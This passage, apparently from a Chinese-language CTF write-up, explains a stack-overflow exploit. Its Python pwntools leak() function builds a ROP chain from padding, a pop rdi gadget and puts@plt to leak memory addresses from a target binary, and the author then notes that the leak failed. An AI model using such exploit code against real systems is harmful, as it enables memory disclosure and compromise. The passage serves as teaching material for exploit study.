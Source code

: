 ![](pic8.png)



由于实际上栈溢出漏洞需要执行完puts(“bye~”)之后才会被触发，输出对应地址的数据，因此我们需要去掉前面的字符，所以可以写leak函数如下：



```python
start_addr = 0x400550
pop_rdi = 0x400763
puts_addr = elf.plt['puts']
 
def leak(addr):
       payload = "A" *72
       payload += p64(pop_rdi)
       payload += p64(addr)
       payload += p64(puts_addr)
       payload += p64(start_addr)
       payload = payload.ljust(200, "B")
       io.send(payload)
       content = io.recv()[5:]
       log.info("%#x => %s" % (addr, (content or '').encode('hex')))
       return content
```



我们将其扩展成一个脚本并执行，却发现leak出错了。

![](pi9.png)
